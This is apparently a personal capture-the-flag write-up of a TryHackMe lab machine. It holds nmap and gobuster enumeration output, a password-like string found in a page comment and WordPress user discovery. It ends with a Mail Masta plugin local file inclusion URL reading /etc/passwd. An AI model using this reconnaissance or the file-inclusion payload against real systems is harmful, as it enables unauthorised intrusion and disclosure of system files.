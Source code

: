 <code>
  
## Service Enumaration 

└─$ nmap  -p- -Pn 10.10.200.162 
Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-25 05:24 CDT
Nmap scan report for 10.10.200.162
Host is up (0.037s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.36 seconds

### FTP - nothing 
└─$ nmap  -sV -sC -A  -p21 10.10.200.162
Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-25 05:27 CDT
Nmap scan report for 10.10.200.162
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.30.202
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.27 seconds

### WwWW

┌──(duke㉿kali)-[~/Documents/THM_all_in_one]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.200.162 -x .php, .txt, .html

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://10.10.200.162
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,
[+] Timeout:                 10s

2024/03/25 05:30:23 Starting gobuster in directory enumeration mode

/wordpress            (Status: 301) [Size: 318] [--> http://10.10.200.162/wordpress/]
/hackathons           (Status: 200) [Size: 197]                                      
/server-status        (Status: 403) [Size: 278]                                      

2024/03/25 06:13:56 Finished

#### in /hackathons found
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->


└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.197.77/heckathons -x .php, .txt, .html

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://10.10.197.77/heckathons
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,
[+] Timeout:                 10s
2024/03/25 07:46:00 Starting gobuster in directory enumeration mode
2024/03/25 08:29:17 Finished

└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.197.77/wordpress -x .php, .txt, .html

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://10.10.197.77/wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,
[+] Timeout:                 10s

2024/03/25 08:35:14 Starting gobuster in directory enumeration mode

/index.php            (Status: 301) [Size: 0] [--> http://10.10.197.77/wordpress/]
/wp-content           (Status: 301) [Size: 327] [--> http://10.10.197.77/wordpress/wp-content/]
/wp-login.php         (Status: 200) [Size: 6766]                                               
/wp-includes          (Status: 301) [Size: 328] [--> http://10.10.197.77/wordpress/wp-includes/]
/wp-trackback.php     (Status: 200) [Size: 135]                                                 
/wp-admin             (Status: 301) [Size: 325] [--> http://10.10.197.77/wordpress/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]                                                  
Progress: 127419 / 661683 (19.26%)                                                             ^C
[!] Keyboard interrupt detected, terminating.
                                                  

### wordpress Enumeration
WordPress version 5.5.1
WordPress theme in use: twentytwenty 
found user elyana

### Mail Masta 1.0 - Local File Inclusion
http://10.10.42.166/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd



<\code>
